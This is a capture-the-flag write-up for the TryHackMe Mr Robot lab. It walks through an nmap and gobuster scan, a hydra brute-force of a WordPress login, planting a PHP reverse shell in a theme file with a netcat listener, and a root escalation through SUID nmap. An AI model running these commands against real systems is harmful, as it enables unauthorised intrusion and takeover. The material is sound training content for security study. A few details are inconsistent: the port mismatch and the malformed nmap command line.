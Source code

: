 # Mr Robot CTF Write up
As per any CTF on Tryhackme make sure everything is up and running and the target system is booted 

For this write up I will be using an attack box provided by Tryhackme however you can use your own machine if you want using OpenVPN (documentation on how to setup OVPN can be found on Tryhackme's beginners room)

**[Upon finishing this CTF you will be awarded the Mr Robot CTF badge](https://tryhackme.com/UwUtisum/badges/mr-robot) **
## Recon:
as per any pen testing challenge we will start by doing some basic recon on the site  
to start I ran a simple nmap scan to see what services are running on the host
Nmap command used:

    nmap -v [TARGET IP]

![Nmap Scan](https://femboy.beauty/WW5xc.png)

as you can see above we have 3 services running on the host machine 

 - Port: 22 SSH Server
 - Port: 80 HTTP Service
 - Port: 443 HTTPS Service

when visiting the site attached to the target machine you will be greeted by a very nice looking terminal based website i will leave this part to you as this was very fun to poke around with its many commands 
![MR robot website](https://femboy.beauty/HOSuq.png)

next we will run a go buster scan on the site attached to the target server to find any hidden directory's 
Go buster command:

    gobuster dir -u http://[TARGET IP]:80 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
This command is a little over kill as this word list is more in-depth than others however it will make sure we get a better picture of all the directory's within the site, ***this command may take a while to finish***

Below is the results from the gobuster scan:
![go buster scan](https://femboy.beauty/2Vhmp.png)

Using this information we can see that the website is a WordPress site, this is clear by the directory's 
**/wp-admin** and **/wp-content** another thing we can notice is the presence of a **robots file** some times this file can hold content the owner might not want being public 

contents of the robots file:

![robots file](https://femboy.beauty/OslNi.png)

**PERFECT!!** we can now see that we have found key 1 of 3 all we need to do now is open the file
![key1](https://femboy.beauty/afo3P.png)

Also listed in the Robots file is a **fsocity.dic** file
lets have a look at that also,
when going to the link **[TARGET IP]/fsocity.dic** it downloads the file to our PC opening this file will show us what seems to be a word list over 850k lines big<br>
![fsocity.dic pic](https://femboy.beauty/P7NAh.png)
## Exploitation:
**now the fun part x3**
first observation is the name **Elliot** in the **Fsocity.dic** file when entering this into our word press login page that we found from our gobuster search it informs us that it is a username used by the site
![Observations](https://femboy.beauty/MunTb.png)
However the **Fsocity.dic** file has many duplicate entry's so before we can progress we need to cut down the list and remove the duplicates to do this we will run the command below:

    sort fsocity.dic | uniq -d > wrd-list && sort fsocity.dic | uniq -u >> wrd-list
this will make a new file called **wrd-list** we will use this file instead of **fsocity.dic** from now on
 
before we can use **Hydra** we will need to figure out what type of request we will need to send to the word press site to brute force the password
to do this we will use **burp suite**
when loading up **burp suite** make sure to start a temporary project
![burp suite temp project](https://femboy.beauty/tlIGt.png)

and then navigate to the **Proxys tab** make sure intercept is on and open the browser
![Burp suite proxy](https://femboy.beauty/QaHMe.png)
Next we will need to navigate to the link **http://[TARGET IP]/wp-login.php** in the burp browser while making sure to click the forward button in burp suite to manually forward requests so the page loads

When entering the user name **Elliot** with a random password burp suite will find the type of request the client sends to the word press server
![capturing request](https://femboy.beauty/5r5oT.png)

with this knowledge we can use **Hydra** to use the **wrd-list** as a word list to try for a password, the reason we are doing this is due to the large size of the file **wrd-list**
we can do this by running the command: 

    hydra -l elliot -P wrd-list [TARGET IP] http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:F=The password you entered for the username" -t 30
    
 **BINGO** we have Elliots wordpress password 
 ![Hydra output](https://femboy.beauty/5d_1G.png)
Now using his word press password we can login to the admin portal for the site located at **http://[TARGET IP]/wp-login.php**

When we login we will be greeted by this wordpress portal
![wordpress dashboard](https://femboy.beauty/fokny.png)
## deploying a backdoor on the site

we will be using a **reverse shell** on the site to get access to the ssh server attached to the host machine 
first we will need to find a page that we will use to initialise our reverse shell to do this we navigate to the appearance tab and select editor 
![wp themes](https://femboy.beauty/PpXgm.png)
next we will need a reverse shell script I will be using [this one](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) 
now we just enter the script into the editor in the wordpress admin portal like so
![enter image description here](https://femboy.beauty/cVnay.png)
**MAKE SURE YOU ENTER THE SCRIPT INTO ARCHIVES.PHP**
in the script there are these 2 lines near the top:

    $ip = '127.0.0.1';  // CHANGE THIS
    $port = 1234;       // CHANGE THIS
I will be changeing the port to 8080 and we will need to change the IP above to the IP of **your attack box** 
   now that we have done that we click update file
   on the attackbox open a new terminal and run the command below:
   

    nc -lnvp 8080
    
   this will listen on port 1234 for any incoming connections, to invoke a connection all we do is navigate to **http://[TARGET IP]/wp-content/themes/twentyfifteen/archive.php** 
[Video of Reverse Shell working](https://femboy.beauty/Ooypc.mp4)

now that we are in we can do some searching on the host server for goodies :3
to start with I checked what was in the directory I booted into using the command **ls** next I checked what was in the home directory and found there was a folder called **robot**
![enter image description here](https://femboy.beauty/_zmhx.png)

next when i was in home/robot we find a few files of interest

![enter image description here](https://femboy.beauty/jGFWO.png)

and boom we have found key 2 of 3 to view its contents we would use cat how ever we lack permissions to open the file
![enter image description here](https://femboy.beauty/xXBP4.png) 

next lets try to read the contents of the password.raw-md5 file
![enter image description here](https://femboy.beauty/Emcef.png)

Perfect now we have a hashed password for the robot user
to decrypt this hash I used [hashes.com](https://hashes.com/en/decrypt/hash)

![enter image description here](https://femboy.beauty/dje3f.png)

this gives us the password of **abcdefghijklmnopqrstuvwxyz**

next we try to run su robot to try and login to the robot user how ever we can only run su in a terminal

![enter image description here](https://femboy.beauty/Fyo50.png)

to fix this all we need to do is run the python command below to force us into a terminal on the host 

    python -c 'import pty;pty.spawn("/bin/bash")'
now we have a full terminal on the host machine now to login to robot
and view the content of the second key 

![enter image description here](https://femboy.beauty/fM6dk.png)

Next we will need to escalate our privileges to root 
next we will check for  **SUID files** using the command below:

    find / -perm -u=s -type f 2>/dev/null
  
  ![enter image description here](https://femboy.beauty/bI6gW.png)
  
as we can see here is all the file paths that have special permissions odly enough Nmap is listed above 
as weird is it sounds we will use Nmap to escalate our privileges to root 
all we need to do is open the nmap directory and boot nmap (yes it is that simple lol)
to get root i ran the commands below:

    cd /usr/local/bin/nmap --interactive 
    !sh
    whoami
    

![enter image description here](https://femboy.beauty/jMi9I.png)

Now that we are root we can CD into the root directory and find our 3rd and final key :D

![enter image description here](https://femboy.beauty/97ad2.png)

and just like that we have our last key x3
